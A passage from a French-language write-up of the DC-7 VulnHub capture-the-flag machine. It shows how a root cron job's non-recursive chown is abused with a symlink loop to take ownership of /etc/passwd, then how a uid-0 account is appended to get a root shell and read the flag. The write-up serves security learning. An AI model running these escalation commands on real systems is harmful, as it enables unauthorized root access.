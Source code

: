 On voit que le dossier `twig` est tout simplement banni. Son dossier parent ne l'est pas, mais impossible d'accéder à un fichier avec l'extension `.php` classique.

J'ai essayé de placer un script PHP avec des dérivés d'extensions php (`.phtml`, `.php5`, `.phar`, etc) mais aucune n'était interprétée même en tentant de forcer l'interprétation avec un `.htaccess` utilisant la directive `AddType` comme pour le [CTF Xerxes]({% link _posts/2014-03-07-Solution-du-CTF-Xerxes-de-VulnHub.md %}).

Du coup je me suis rabattu sur l'exploitation directe de la tache cron à savoir l'utilisation de la commande `chown` dans le script :

```bash
chown dc7user:dc7user /home/dc7user/backups/*
```

La vulnérabilité vient du fait que `chown` n'est pas appelé en mode récursif. Il s'applique à tous les fichiers et dossiers directement dans `/home/dc7user/backups/` et à cause de ça il changera les permissions même sur les fichiers ou dossiers pointés par des liens symboliques.

Quand on regarde à nouveau les mails on voit que la tache cron est exécutée toute les 15 minutes :

```
 U   2 Cron Daemon        Thu Mar 23 01:00  23/748   Cron <root@dc-7> /opt/scripts/backups.sh
 U   3 Cron Daemon        Thu Mar 23 01:15  23/748   Cron <root@dc-7> /opt/scripts/backups.sh
```

On va faire une boucle infinie qui créé un lien symbolique vers `/etc/passwd`. Boucler nous permet de nous assurer que le lien symbolique existera entre la première instruction du script (`rm /home/dc7user/backups/*`) et le `chown`. `rm` de son côté supprime le lien symbolique, mais pas le fichier pointé donc aucun risque.

```bash
while true; do ln -s /etc/passwd /home/dc7user/backups/yolo 2> /dev/null ; done
```

Après de longues minutes les permissions sont effectives. On peut rajouter un compte dans `/etc/passwd` (user `devloop`, mot de passe `hello`).

```console
dc7user@dc-7:~$ ls -al /etc/passwd
-rw-r--r-- 1 dc7user dc7user 1494 Aug 29  2019 /etc/passwd
dc7user@dc-7:~$ echo devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh >> /etc/passwd
dc7user@dc-7:~$ su devloop
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root      
# ls
theflag.txt
# cat theflag.txt




888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-7.  Just wanted to send a big thanks out there to all those
who have provided feedback, and all those who have taken the time to complete these little
challenges.
```